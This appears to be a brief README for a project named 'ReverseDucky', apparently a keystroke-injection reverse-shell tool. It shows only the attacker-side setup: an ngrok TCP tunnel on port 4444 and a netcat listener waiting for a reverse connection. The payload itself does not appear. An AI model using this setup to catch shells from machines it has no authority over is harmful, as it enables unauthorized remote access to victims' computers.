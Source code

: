 # ReverseDucky
hahahaha quack quack!

Start tunneling...
```
ngrok tcp 4444
```

Listen to reverse connection from port 4444
```
nc -lvnp 4444
```
